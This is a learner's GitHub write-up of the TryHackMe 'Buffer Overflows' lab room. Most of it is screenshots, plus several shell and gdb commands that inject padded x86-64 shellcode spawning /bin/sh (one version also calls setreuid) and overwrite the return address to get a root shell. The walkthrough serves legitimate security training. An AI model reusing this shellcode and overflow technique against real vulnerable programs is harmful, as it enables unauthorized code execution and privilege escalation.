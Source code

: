 <p align="center">December 5, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{213}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Buffer Overflows}}$$
</h1>
<p align="center">Learn how to get started with basic Buffer Overflows!</p>
<p align="center">Note that only subscribers can deploy virtual machines in this room, <a href="https://tryhackme.com/r/room/bof1">Buffer Overflows</a>.</p>
                                                              
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/7d2f56e1-61ae-4e90-916b-bc88a6900314">
  <img width="900px" src="https://github.com/user-attachments/assets/b096f7af-58d7-406a-ac2b-01f9cfb0558d">
</p>


<h2>Introduction</h2>

![image](https://github.com/user-attachments/assets/22c39b6d-3e68-45ca-9515-6ba0ae8753c4)

<h2>Process Layout</h2>

![image](https://github.com/user-attachments/assets/e2c0f388-2df4-486b-828d-f07fb8c42421)


<h2>x86-64 Procedures</h2>

![image](https://github.com/user-attachments/assets/21a2694e-4ccc-4d1e-86d6-8c000540a81b)


<h2>Procedures Continued</h2>

![image](https://github.com/user-attachments/assets/cc08f37d-ccd5-4179-ac32-19f90ce58696)

<h2>Endianess</h2>

![image](https://github.com/user-attachments/assets/ce6144b4-e320-4aa9-b461-19a30d1ed03c)


<h2>Overwriting Variables</h2>

![image](https://github.com/user-attachments/assets/edbbdd54-b261-4538-8dd4-b88a83ad1a28)


<h2>Overwriting Function Pointers</h2>

![image](https://github.com/user-attachments/assets/fc36d53e-4ae3-43f5-813e-764e35f688d2)

<br>
<h2>Buffer Overflows</h2>

![image](https://github.com/user-attachments/assets/83a118ec-4cdd-4f98-8ab4-91e1eeacf566)


<p>continuing</p>

<br>


![image](https://github.com/user-attachments/assets/80afc8ec-0403-4c0c-abce-584c5a017392)

<br>

<pre><code>run $(python -c "print 'A'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")</code></pre>

![image](https://github.com/user-attachments/assets/71f00228-3590-48c6-8dd9-f0f7487c7c47)

<br>

<pre><code>x/100x $rsp-200</code></pre>

![image](https://github.com/user-attachments/assets/0a5e4353-36e3-4904-8c8f-c034506afeec)

<br>





<br>
<h2>Buffer Overflows 2</h2>

![image](https://github.com/user-attachments/assets/dff71db4-0e60-41e9-9c51-83c40e6bced6)

![image](https://github.com/user-attachments/assets/9a6e21ab-93bd-4a5d-b7f2-f0501d14ad1c)

![image](https://github.com/user-attachments/assets/aef228ce-97a2-4438-a1ca-f2de52f77ff5)

![image](https://github.com/user-attachments/assets/9e8e2675-0583-48f6-acbd-c015bd1176ad)

<pre><code>run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")</code></pre>

![image](https://github.com/user-attachments/assets/1995e8ea-eda0-40a4-be28-bd5665fd878b)

<pre><code>./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')")
</code></pre>



./buffer-overflow $(python -c "print('A'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")")

![image](https://github.com/user-attachments/assets/6a745b72-f5c2-420a-bd9b-b89e5b7b019d)

<br>

![image](https://github.com/user-attachments/assets/f7dd5c61-13d3-403d-aa52-7df22a99f9f2)


















